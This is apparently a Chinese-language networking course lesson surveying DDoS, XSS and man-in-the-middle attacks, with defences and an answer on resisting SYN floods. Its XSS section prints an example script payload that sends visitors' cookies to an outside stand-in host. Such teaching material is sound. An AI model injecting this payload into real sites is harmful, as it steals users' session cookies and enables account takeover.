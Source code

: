 安全无小事。2016 年 DNS 提供商 Dyn 遭遇了一次大规模的 DDoS（分布式拒绝服务攻击），有 14000 个网站域名受到影响。2020 年 7 月份，Twitter 遭大规模攻击，黑客控制了包括马斯克、盖茨、 奥巴马等人的 Twitter 账号，诱导用户购买比特币，最终骗取了 11W 美金。2021 年 4 月份，还有黑客利用 Github 的 Actions（Github 的一种 CI/CD 方案），诱导用户进行 git 操作时触发恶意比特币的矿机。

特别是在中国这种人口基数大，互联网发达的国家，如果一个互联网公司的安全出了故障，那么影响将是巨大的。前几年，我们国家出现过一起影响较大的安全问题——某知名技术社区用户的用户名和密码被大规模泄露。前车之鉴、后车之覆，我们要吸取教训。因此，这一讲我们就以“**如何抵御 SYN 拒绝攻击**”为引，开启今天的学习，让你对网络安全的常见攻防手段有一个初步了解。

### 拒绝服务攻击（DoS)

**拒绝服务攻击**（**Denial-of-Service Attack，DoS**）**是一种常见的攻击手段**。虽然目前互联网越来越趋向于正规化，但是对于黑产还有利用 DoS 攻击黑吃黑的现象。比较常见的就是热血传奇这款游戏的私服，搭建一个私服可以获得大额非法收入，但是因为是黑产也会经常受到黑客的攻击。黑客攻击后，再发邮件到管理员邮箱索取金钱，威胁用户不尽快打款就会一直攻击。

在过去，黑产间的攻阀，DoS 就可以作为一种常见武器。**DoS 的原理就是利用大量的流量迅速向一个网站发送出去**。这种流量可能是应用层的，比如大量 HTTP 请求；也可以是传输层，比如大量的 TCP 请求。比如 2018 年 2 月 18 日，Github 就遭受了一场超大规模的 DoS 攻击，瞬间流量峰值达到了 1.35Tbps。之后，黑客还对 Google、亚马逊等网站也进行了攻击。

为了形成足够强大的流量，攻击者往往没有足够的经济实力购买机器，而是利用中病毒、木马的机器组织流量攻击。这些中病毒的机器，我们俗称“肉鸡”。顶级的黑客往往控制着大量的肉鸡，一声令下，肉鸡就开始疯狂向目标发送网络封包，直到打垮目标。因为肉鸡是分散在世界各地的，因此这种攻击我们也称为**分布式拒绝服务攻击**（**Distributed Denial-of-Service Attack， DDoS**）。

#### DDoS 的种类

DDoS 的种类有很多，手段也很复杂。

- 直接不停发送 Ping 消息的，利用底层的 ICMP 协议，称为**ICMP 攻击；**
- 走 UPD 协议的，称为**UDP 洪水**（**UDP Flood**）；
- 不停利用 TCP 协议发送 SYN 消息的，也叫**SYN 攻击；**
- 模拟用户行为，不停发帖、浏览帖子、浏览网页、加购物车等，称为**挑战黑洞攻击**（**Challenge Collapsar**）。

#### 防范措施

当遇到 DDoS 攻击的时候，如果有所准备，就可以做到有备无患。比如说购买了防火墙，防火墙会根据特征识别出攻击行为，通过这样的方式将攻击行为过滤掉，让系统不会因为 DDoS 而过载造成崩溃。

当然如果是纯粹的流量攻击，仅仅靠防火墙是不够的。通常一些大型互联网公司会进行多活建设。一般是两地三机房，分别是日常生产环境、同城灾备环境和异地灾备环境，遇到 DDoS 可以考虑切换流量，也能起到一定作用。

另外 CDN 在解决 DDoS 时往往也有很好的效果，毕竟 CDN 是大量缓存节点，DDoS 攻击 CDN 的时候用不上力。当然，如果资金不足以购买服务器的小团队，可以自己实现软件防火墙。其实就是设计一台吞吐量极高的代理服务器，作为反向代理挡在所有服务前面，如果遇到 DDoS，代理服务器可以识别出一些特征并丢弃一些流量。

在遇到攻击的时候，对服务适当降级也是有必要的，甚至可以牺牲一部分用户保全另一部分用户的正常使用。防火墙是基于特征识别，本身也会有一定的误杀现象，在被攻击的时候，可以人为降低判定攻击行为的门槛。通过允许防火墙造成一部分的误伤来识别出更多的攻击流量。

### 跨站脚本攻击（XSS）

接下来我们讨论另一种攻击——**跨站脚本攻击**。

2021 年 2 月印度的一名测试工程师在苹果 iCloud 官网中发现了一个跨站脚本攻击漏洞，并向苹果公司提交了具体的漏洞说明和触发的操作步骤。事后，苹果公司给这名印度人发放了 5000 美金的奖金。

**跨站脚本（Cross Site Scripting），顾名思义，就是利用漏洞将脚本注入网页中**。比如提交个人信息的输入框，如果在服务端没有处理好就有可能触发跨站脚本。

假设有一个输入个人签名的多行文本输入框，正常用户会输入几句有趣的话，但是黑客可能会尝试输入：

```
scriptdocument.createElement('img').src="https://some.site.com?cookie=document.cookie"/script
```

如果这段话被显示到用户的个人主页，那么访问这个用户空间的其他用户就会被攻击，进而被黑客拿走 Cookie 中的关键信息。

XSS 攻击模式很简单，就是想办法向网站的页面上注入脚本。总的来说，输入框是一个重灾区。目前随着前端技术的发展，使用前端框架，比如 React 或 Vue 开发的页面已经杜绝了被 XSS 的可能。但是有时候如果工作出现某些疏漏，还是会导致 XSS 的发生。所以正确的做法是上线前拜托安全部门的同学协助进行一些针对 XSS 漏洞的扫描。

### 中间人攻击

接下来我们聊聊**中间人攻击**。

我们国家目前在打击网络电信诈骗案中，就有这样一种形式。一些不法分子利用伪基站，比如找一个人多的地方，用自己的伪基站设备伪装成基站，向用户提供网络。一些离不法分子较近的人，手机可能会连接上伪基站。连接上后，不法分子的伪基站就成了你上网的代理，可以进行很多非法操作。因此，从这个角度看，中间人黑进你附近的网络，成为你上网的“代理”，并不是非常难的一件事情。不懂技术的犯罪分子，通过购买伪基站设备，就可以充当中间人。

在遇到中间人攻击时，互联网的信用体系、操作系统、浏览器等就会帮你把好最后一关。比如你访问淘宝购物，中间人向你投放假网页。浏览器就会去验证这个假网页的证书，是不是淘宝的证书。去年 Github 在国内疑似被中间人攻击的案例中，国内很多用户看到的现象是浏览器提示用户浏览的网站不安全。这种情况就是浏览器在校对证书的时候发现了疑点。如果你上网遇到这种情况应该选择立即关闭这个网页，不进行后续的操作，防止被骗。

### 总结

生活在当今时代，作为个人，网络安全是一件大事。你的购票信息、出行记录、账号密码、位置信息等，都需要你有防范意识，防止被不法分子拿走。在为公司工作的时候，要保管好自己的账号。特别是你工作用的计算机，要远离非正规渠道获得的软件。你的工作计算机一旦中了木马，成了肉鸡，那不法分子完全可以用你的工作计算机作为跳板，登录公司服务器。

另一方面，作为公司和团队，也要有较强的安全意识。当然，安全领域有自己的专业知识和人才。在互联网产品初期，往往承担不起昂贵的防火墙和雇佣安全专家的费用，这个时候需要开发者主动去学习安全知识，尽可能提升被攻破的成本。当业务发展到一定程度后，就需要马上雇佣安全专家，以及购买包括防火墙在内的网络安全设备。

好的，那么通过这一讲的学习，你现在可以尝试来回答：如何抵御 SYN 拒绝攻击？

【**解析**】SYN 攻击是 DDoS 攻击的一种形式。这种形式攻击者伪装成终端不停地向服务器发起 SYN 请求。通常攻击者的肉鸡，发送了 SYN 之后，不等给服务端 ACK，就下线了。 这样攻击者不断发送 SYN ，然后下线，而服务端会等待一段时间（通常会在 3s 以上），等待 ACK。这样就导致了大量的连接对象在服务端被积累。

针对这个特点可以实现一个 TCP 代理（防火墙），发现有发送 SYN 但是不给 ACK 的行为就对目标 IP 地址禁用一段时间。这个策略平时可以配置成开关，等到被攻击的时候打开。另一方面，可以适当提升连接数支持。